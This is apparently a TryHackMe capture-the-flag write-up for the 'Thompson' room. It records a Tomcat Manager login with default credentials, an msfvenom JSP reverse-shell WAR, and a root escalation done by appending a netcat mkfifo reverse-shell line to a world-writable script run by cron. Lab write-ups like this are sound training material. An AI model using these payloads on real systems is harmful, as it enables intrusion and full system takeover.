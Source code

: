 # Room
https://tryhackme.com/room/bsidesgtthompson

# Task 1
* Enumeration - nmap
    ```
    nmap -A -T4 10.10.72.85

    Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-29 16:01 EST
    Nmap scan report for 10.10.72.85
    Host is up (0.14s latency).
    Not shown: 997 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
    |   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
    |_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
    8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
    |_ajp-methods: Failed to get a valid response for the OPTION request
    8080/tcp open  http    Apache Tomcat 8.5.5
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/8.5.5
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 19.90 seconds
    ```
* Enumeration - nmap review

Tomcat is running on this server, we'll try to browse the site first

* Enumeration - browse Tomcat
    * Opened ZAP
    * Opened Firefox and set FoxyProxy to use ZAP
    * In ZAP
        * Quick Start > Automated Scan > IP of target + port 8080
        * Use traditional spider
        * Start Scan
    * Browsed around the site
    * Clicked on Manager App and was able to login with the default creds
    * From here you can upload a WAR file and deploy it

* Exploit research - malicious WAR files
    * https://netsec.ws/?p=331
    * https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

* Exploit creation - msfvenom
    ```
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=a.b.c.d LPORT=1234 -f war > shell.war
    Payload size: 1098 bytes
    Final size of war file: 1098 bytes
    ```
* Create a listener
    ```
    nc -nvlp 1234
    listening on [any] 1234 ...
    ```
* Upload and deploy the malicious WAR file, then navigate to the shell directory
    ```
    https://10.10.72.85:8080/shell/
    ```
* Check listener
    ```
    listening on [any] 1234 ...
    connect to [a.b.c.d] from (UNKNOWN) [10.10.72.85] 38160
    whoami
    tomcat
    ```
* Upgrade the netcat shell
    ```
    Python bash upgrade fails, use sh instead

    python -c 'import pty;pty.spawn("/bin/sh")'
    $ whoami
    whoami
    tomcat
    $ 

    $ bash -i   
    tomcat@ubuntu:/$        
    ```
* Check /home
    ```
    tomcat@ubuntu:~$ cd /home
    cd /home
    tomcat@ubuntu:/home$ ls -lrta
    ls -lrta
    total 12
    drwxr-xr-x  3 root root 4096 Aug 14  2019 .
    drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
    drwxr-xr-x  4 jack jack 4096 Aug 23  2019 jack
    tomcat@ubuntu:/home$ cd jack
    cd jack
    tomcat@ubuntu:/home/jack$ ls -lrta
    ls -lrta
    total 48
    drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
    -rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
    -rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
    -rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
    drwx------ 2 jack jack 4096 Aug 14  2019 .cache
    -rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
    -rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
    drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
    -rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
    -rw------- 1 root root 1476 Aug 14  2019 .bash_history
    -rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
    drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
    -rw-r--r-- 1 root root   39 Jan 29 14:25 test.txt
    tomcat@ubuntu:/home/jack$ cat user.txt
    cat user.txt
    [removed]
    ```
* Check id.sh and test.txt in /home/jack
    ```
    tomcat@ubuntu:/home/jack$ cat id.sh
    cat id.sh
    #!/bin/bash
    id > test.txt
    tomcat@ubuntu:/home/jack$ cat test.txt
    cat test.txt
    uid=0(root) gid=0(root) groups=0(root)
    ```
* Check cron
    ```
    tomcat@ubuntu:/home/jack$ cat /etc/crontab
    cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.

    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user  command
    17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
    25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    *  *    * * *   root    cd /home/jack && bash id.sh
    ```
* Setup listener 2
    ```
    nc -nvlp 4321
    listening on [any] 4321 ...
    ```
* Append to id.sh
    ```
    tomcat@ubuntu:/home/jack$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc a.b.c.d 4321 >/tmp/f' >> id.sh   
    
    tomcat@ubuntu:/home/jack$ cat id.sh
    cat id.sh
    #!/bin/bash
    id > test.txt
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc a.b.c.d 4321 >/tmp/f
    ```
* Wait for cron to run, then check listener
    ```
    connect to [a.b.c.d] from (UNKNOWN) [10.10.72.85] 43988
    /bin/sh: 0: can't access tty; job control turned off
    # whoami
    root
    # cd /root
    # ls -lrta
    total 24
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
    drwxr-xr-x  2 root root 4096 Aug 14  2019 .nano
    -rw-r--r--  1 root root   33 Aug 14  2019 root.txt
    drwx------  3 root root 4096 Aug 14  2019 .
    drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
    # cat root.txt
    [removed]
    ```
# Review
Our initial scan found Tomcat installed.  After loading up ZAP and Firefox I manually browsed the site and discovered I could login to the Manager App with default creds.  Once logged in I noticed you could upload a WAR file.  Researching this lead to the discovery of creating a malicious shell with msfvenom.  I created the shell, uploaded the WAR file, and then navigated to the /shell directory in the web page while I had a listener up.  At this point I had a tomcat user shell.  Python bash tty upgrades didn't work so I used sh instead and then bash -i and called it good enough.  

Looking at the /home directory I found the jack folder was accessible, inside we got the user flag.  Inside the /home/jack directory were two files, id.sh and test.txt.  Id.sh was creating test.txt.  A review of/etc/crontab found a cron job executing every minute as root which was running id.sh.  I setup a second listener and then appended shell code to id.sh since it was 777.  After waiting a minute for the cron job to run I received a root shell on my listener.